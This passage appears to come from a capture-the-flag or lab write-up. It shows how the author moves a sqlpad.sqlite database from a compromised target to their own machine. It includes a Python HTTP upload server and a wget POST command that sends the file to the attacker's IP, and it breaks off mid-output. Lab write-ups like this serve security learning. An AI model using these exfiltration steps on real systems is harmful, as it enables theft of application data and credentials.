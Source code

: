 {{text("I couldn't find anything else interesting, except for the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sqlpad.sqlite</code> file in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var/lib/sqlpad</code> directory.")}}

{{text("In order to transfer the file, I created a python script that will start a HTTP server accepting POST requests and used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>wget</code> on the target machine to transfer the file.")}}

{{console("cat server.py", "from http.server import HTTPServer, BaseHTTPRequestHandler
import os

class FileUploadHandler(BaseHTTPRequestHandler):
    upload_dir = 'uploads'

    def do_POST(self):
        # Read the content length from headers
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # Create the directory if it does not exist
        os.makedirs(self.upload_dir, exist_ok=True)

        # Save the file with a default name
        file_path = os.path.join(self.upload_dir, 'uploaded_file')
        with open(file_path, 'wb') as f:
            f.write(post_data)

        # Send a success response
        self.send_response(200)
        self.end_headers()

    def do_GET(self):
        # Respond to a GET request
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'This server accepts POST requests to upload files')

# Start the server
if __name__ == '__main__':
    host = '0.0.0.0'
    port = 8000
    print(f'Server running on http://{host}:{port}')
    server = HTTPServer((host, port), FileUploadHandler)
    server.serve_forever()")}}

{{console("wget --method=POST --body-file=sqlpad.sqlite http://10.10.14.159:8000/", "--2025-01-01 19:43:32--  http://10.10.14.159:8000/
Connecting to 10.10.14.159:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified
Saving to: 'uploaded_file'
